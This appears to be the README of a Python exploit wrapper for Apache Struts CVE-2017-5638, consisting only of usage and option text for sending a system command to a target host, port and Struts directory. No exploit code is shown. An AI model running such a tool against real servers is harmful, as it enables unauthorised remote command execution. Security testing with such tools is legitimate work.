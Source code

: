  # Apache Struts-45 CVE-2017-5638
 
 #(m4ud) python3 wrapper!
 
  
    python3 exploit.py -h   ...for help

    Usage : exploit.py -t RHOST -p RPORT -d Struts-directory -c cmd
    
    
    Usage: exp.py [options]

    Options:
      -h, --help            show this help message and exit
      -p RPORT, --port=RPORT
                            RPORT,
      -t TARGET, --target=TARGET
                            Vulnerable Target,
      -d DIRECTORY, --dir=DIRECTORY
                            Struts Application directory,
      -c COMMAND, --command=COMMAND
                            System Command,
